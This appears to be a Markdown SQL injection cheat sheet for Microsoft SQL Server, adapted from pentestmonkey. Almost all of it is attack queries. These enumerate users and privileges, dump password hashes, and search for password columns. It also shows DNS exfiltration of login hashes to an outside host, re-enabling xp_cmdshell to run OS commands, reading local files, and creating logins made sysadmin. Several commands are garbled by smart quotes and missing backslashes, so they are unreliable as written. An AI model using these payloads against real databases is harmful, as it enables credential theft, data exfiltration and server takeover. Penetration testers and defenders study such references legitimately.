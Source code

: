 # SQLi - MSSQL

#### From:
- https://www.slideshare.net/SOURCEConference/everything-you-should-already-know-about-mssql-postexploitation
- http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

| Enumerate    | Command                 |
|--------------|-------------------------|
| Version|`SELECT @@version`|
|Comments|`SELECT 1 — comment`<br>`SELECT /*comment*/1`|
|Current User | `SELECT user_name();`<br>`SELECT system_user;<br>SELECT user;`<br>`SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID`|
|List Users|`SELECT name FROM master..syslogins`|
|List Password Hashes|`SELECT name, password FROM master..sysxlogins` — priv, mssql 2000;<br>`SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins` — priv, mssql 2000. Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.<br>`SELECT name, password_hash FROM master.sys.sql_logins` — priv, mssql 2005;<br>`SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins` — priv, mssql 2005|
| Password Cracker|MSSQL 2000 and 2005 Hashes are both SHA1-based.  phrasen\|drescher can crack these.|
| List Privileges| – current privs on a particular object in 2005, 2008<br>`SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’);` — current database<br>`SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’);` — current server<br>`SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’);` –permissions on a table<br>`SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’);` –permissions on a user– current privs in 2005, 2008<br>`SELECT is_srvrolemember(‘sysadmin’);`<br>`SELECT is_srvrolemember(‘dbcreator’);`<br>`ELECT is_srvrolemember(‘bulkadmin’);`<br>`SELECT is_srvrolemember(‘diskadmin’);`<br>`SELECT is_srvrolemember(‘processadmin’);`<br>`SELECT is_srvrolemember(‘serveradmin’);`<br>`SELECT is_srvrolemember(‘setupadmin’);`<br>`SELECT is_srvrolemember(‘securityadmin’);` – who has a particular priv? 2005, 2008<br>`SELECT name FROM master..syslogins WHERE denylogin = 0;`<br>`SELECT name FROM master..syslogins WHERE hasaccess = 1;`<br>`SELECT name FROM master..syslogins WHERE isntname = 0;`<br>`SELECT name FROM master..syslogins WHERE isntgroup = 0;`<br>`SELECT name FROM master..syslogins WHERE sysadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE securityadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE serveradmin = 1;`<br>`SELECT name FROM master..syslogins WHERE setupadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE processadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE diskadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE dbcreator = 1;`<br>`SELECT name FROM master..syslogins WHERE bulkadmin = 1;`|
| List DBA Accounts| `SELECT is_srvrolemember(‘sysadmin’);` — is your account a sysadmin?  returns 1 for true, 0 for false, NULL for invalid role.  Also try ‘bulkadmin’, ‘systemadmin’ and other values from the documentation<br>`SELECT is_srvrolemember(‘sysadmin’, ‘sa’);` — is sa a sysadmin? return 1 for true, 0 for false, NULL for invalid role/username.<br>`SELECT name FROM master..syslogins WHERE sysadmin = ’1′` — tested on 2005 |
| Current Database| `SELECT DB_NAME()` |
| List Databases| `SELECT name FROM master..sysdatabases;`<br>`SELECT DB_NAME(N);` — for N = 0, 1, 2, …|
| List Columns | `SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’);` — for the current DB only<br>`SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’;` — list colum names and types for master..sometable | 
| List Tables | `SELECT name FROM master..sysobjects WHERE xtype = ‘U’;` — use xtype = ‘V’ for views<br>`SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;`<br>`SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’;` — list colum names and types for master..sometable | 
| Find Tables From Column Name | – NB: This example works only for the current database.  If you wan’t to search another db, you need to specify the db name (e.g. replace sysobject with mydb..sysobjects).<br>`SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = ‘U’ AND syscolumns.name LIKE ‘%PASSWORD%’` — this lists table, column for each column containing the word ‘password’ | 
| Select Nth Row | `SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq ORDER BY name DESC` — gets 9th row | 
| Select Nth Char | `SELECT substring(‘abcd’, 3, 1)` — returns c | 
| Bitwise AND | `SELECT 6 & 2` — returns 2<br>`SELECT 6 & 1` — returns 0 |
| ASCII Value -> Char | `SELECT char(0×41)` — returns A |
| Char -> ASCII Value | `SELECT ascii(‘A’)` – returns 65 |
| Casting | `SELECT CAST(’1′ as int);`<br>`SELECT CAST(1 as char)` |
| String Concatenation | `SELECT ‘A’ + ‘B’` – returns AB |
| If Statement | `IF (1=1) SELECT 1 ELSE SELECT 2` — returns 1 |
| Case Statement | `SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END` — returns 1 |
| Avoiding Quotes | `SELECT char(65)+char(66)` — returns AB |
| Time Delay | `WAITFOR DELAY ’0:0:5′` — pause for 5 seconds |
| Make DNS Requests | `declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’);` — nonpriv, works on 2000<br>`declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’);` — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary.<br>– Also check out theDNS tunnel feature of sqlninja |
| Command Execution | `EXEC xp_cmdshell ‘net user’;` — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:<br>`EXEC sp_configure ‘show advanced options’, 1;` — priv<br>`RECONFIGURE;` — priv<br>`EXEC sp_configure ‘xp_cmdshell’, 1;` — priv<br>`RECONFIGURE;` — priv |
| Local File Access | `CREATE TABLE mydata (line varchar(8000));`<br>`BULK INSERT mydata FROM ‘c:boot.ini’;`<br>`DROP TABLE mydata;` |
| Hostname, IP Address | `SELECT HOST_NAME()` |
| Create Users | `EXEC sp_addlogin ‘user’, ‘pass’;` — priv |
| Drop Users | `EXEC sp_droplogin ‘user’;` — priv | 
| Make User DBA | `EXEC master.dbo.sp_addsrvrolemember ‘user’, ‘sysadmin;` — priv |
|  Location of DB files | `EXEC sp_helpdb master;` –location of master.mdf<br>`EXEC sp_helpdb pubs;` –location of pubs.mdf |
| Default/System Databases | northwind<br>model<br>msdb<br>pubs — not on sql server 2005<br>tempdb|